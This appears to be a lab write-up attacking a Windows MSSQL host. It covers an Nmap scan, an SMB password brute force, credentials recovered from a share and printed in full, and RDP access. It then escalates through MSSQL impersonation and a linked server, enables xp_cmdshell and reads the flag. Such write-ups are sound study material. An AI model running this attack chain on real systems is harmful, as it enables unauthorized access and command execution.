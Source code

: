 ----

Nmap scan to enumerate all the services.
```
PORT     STATE SERVICE       VERSION                                              
135/tcp  open  msrpc         Microsoft Windows RPC                                
445/tcp  open  microsoft-ds?                                                      
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM         
| ms-sql-ntlm-info:                                                               
|   10.129.203.10:1433:                                                           
|     Target_Name: WIN-HARD                   
|     NetBIOS_Domain_Name: WIN-HARD        
|     NetBIOS_Computer_Name: WIN-HARD      
|     DNS_Domain_Name: WIN-HARD           
|     DNS_Computer_Name: WIN-HARD         
|_    Product_Version: 10.0.17763                                                              
| ms-sql-info:
|   10.129.203.10:1433:
|     Version:         
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00          
|       Product: Microsoft SQL Server 2019 
|       Service pack level: RTM            
|       Post-SP patches applied: false  
|_    TCP port: 1433                   
|_ssl-date: 2025-01-12T22:12:56+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-12T22:10:37
|_Not valid after:  2055-01-12T22:10:37
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-HARD
| Not valid before: 2025-01-11T22:10:27
|_Not valid after:  2025-07-13T22:10:27
|_ssl-date: 2025-01-12T22:12:56+00:00; 0s from scanner time.
| rdp-ntlm-info:                                            
|   Target_Name: WIN-HARD                                   
|   NetBIOS_Domain_Name: WIN-HARD                   
|   NetBIOS_Computer_Name: WIN-HARD
|   DNS_Domain_Name: WIN-HARD
|   DNS_Computer_Name: WIN-HARD               
|   Product_Version: 10.0.17763                                    
|_  System_Time: 2025-01-12T22:12:16+00:00                         
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows 
```

I know there is a user called `simon`, so I tried bruteforcing the smb service.

```bash
nxc smb 10.129.203.10 -u simon -p pass.list
SMB         10.129.203.10   445    WIN-HARD         [+] WIN-HARD\simon:liverpool (Guest)
```
With these credentials I downloaded all the readable folders on the share.

```bash
nxc smb 10.129.203.10 -u simon -p liverpool -M spider_plus -o DOWNLOAD_FLAG=True
SPIDER_PLUS 10.129.203.10   445    WIN-HARD         [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus                                      
SMB         10.129.203.10   445    WIN-HARD         [*] Enumerated shares
SMB         10.129.203.10   445    WIN-HARD         Share           Permissions     Remark               
SMB         10.129.203.10   445    WIN-HARD         -----           -----------     ------
SMB         10.129.203.10   445    WIN-HARD         ADMIN$                          Remote Admin                                      
SMB         10.129.203.10   445    WIN-HARD         C$                              Default share                                
SMB         10.129.203.10   445    WIN-HARD         Home            READ        
SMB         10.129.203.10   445    WIN-HARD         IPC$            READ            Remote IPC  
```

The `Home` directory contained credentails for Fiona and the following information
```
To do:                                              
- Keep testing with the database.                   
- Create a local linked server.                     
- Simulate Impersonation.
```
With Fiona's credentails I could rdp to her desktop

```bash
xfreerdp \u:fiona \p:48Ns72!bns74@S84NNNSl \v:10.129.203.10
```

In a `powershell` window I opened `sqlcmd`.

Since the notes from the share said something about impersonating and a local linked server, I looked for these things. 

I look who I could impersonate with Fiona.
```powershell
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

I could impersonate `john` and `simon`

I decided to go for `john` first.

```powershell
1> EXECUTE AS LOGIN = 'john'
2> GO
```

Next I identified linked servers
```powershell
1> SELECT srvname, isremote FROM sysservers
2> GO
```

I saw there was a `LOCAL.TEST.LINKED.SRV`
I verified the user that was on that system with the following command.

```powershell
1> EXECUTE('SELECT SYSTEM_USER; SELECT IS_SRVROLEMEMBER(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]                                             
2> GO                                                                              
-------------------
testadmin       
```

I was the `testadmin` on the linked server, so I could probably execute commands with `xp_cmdshell`. But before I could use `xp_cmdshell` I had to enable it.

```powershell
1> EXECUTE('EXECUTE sp_configure ''show advanced options'', 1; RECONFIGURE; EXECUTE sp_configure ''xp_cmdshell'', 1; RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]
2> GO                                                                              

Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.                                    
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install. 
```

Now I can execute commands, so I just got the flag. 

```powershell
1> EXECUTE('xp_cmdshell ''type C:\Users\Administrator\Desktop\flag.txt''') AT [LOCAL.TEST.LINKED.SRV]                                          
2> GO   
```

